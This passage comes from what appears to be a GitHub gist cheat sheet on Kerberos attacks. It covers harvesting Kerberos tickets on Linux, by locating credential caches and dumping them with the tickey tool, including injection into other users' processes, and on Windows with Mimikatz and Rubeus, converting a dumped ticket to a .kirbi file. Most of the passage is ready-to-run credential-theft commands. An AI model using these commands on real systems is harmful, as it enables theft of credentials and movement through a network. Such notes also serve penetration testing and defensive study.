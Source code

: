 ### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='26'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='551' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#harvest-tickets-from-linux)Harvest tickets from Linux

Check type and location of tickets:
grep default_ccache_name /etc/krb5.conf
If none return, default is FILE:/tmp/krb5cc_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.

In case of being *KEYRING* tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

# To dump current user tickets, if root, try to dump them all by injecting in other user processes# to inject, copy tickey in a reachable folder by all userscp tickey /tmp/tickey

/tmp/tickey -i

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='27'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='564' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#harvest-tickets-from-windows)Harvest tickets from Windows

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
mimikatz # sekurlsa::tickets /export
With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:

.\Rubeus dump# After dump with Rubeus tickets in base64, to write the in a file[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
